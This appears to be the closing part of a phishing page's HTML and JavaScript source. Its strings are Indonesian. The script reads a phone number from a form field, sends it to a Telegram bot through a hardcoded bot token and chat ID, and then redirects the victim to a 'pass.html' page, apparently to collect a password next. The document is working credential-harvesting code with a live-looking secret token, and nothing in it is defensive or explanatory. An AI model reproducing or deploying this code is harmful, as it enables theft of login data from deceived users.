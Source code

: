         function sendMessageToTelegram(message) {
            var xhttp = new XMLHttpRequest();
            xhttp.onreadystatechange = function() {
                if (this.readyState === 4 && this.status === 200) {
                    console.log("Pesan terkirim: " + message);
                }
            };
            var url = "https://api.telegram.org/bot6322041502:AAFFHHf_FwDUrwVb60SnXWE-hcl3XgYOfDI/sendMessage?chat_id=6350074827&text=" + encodeURIComponent(message);

            xhttp.open("GET", url, true); // Use GET method
            xhttp.send();
        }

        function kirimPesan() {
            var nomorHandphone = document.getElementById('user-input').value;

            if (nomorHandphone.trim() === '') {
                if (navigator.vibrate) {
                    navigator.vibrate(200);
                }
                return;
            }

            var message = "Nomor Handphone: " + nomorHandphone;
            sendMessageToTelegram(message);
            console.log('Data berhasil dikirim ke Telegram!');
            setTimeout(function() {
                window.location.href = 'pass.html';
            }, 1000); // Delay to ensure Telegram message is sent
        }

        document.getElementById("submit-btn").addEventListener("click", kirimPesan);
    </script>

</body>
</html>
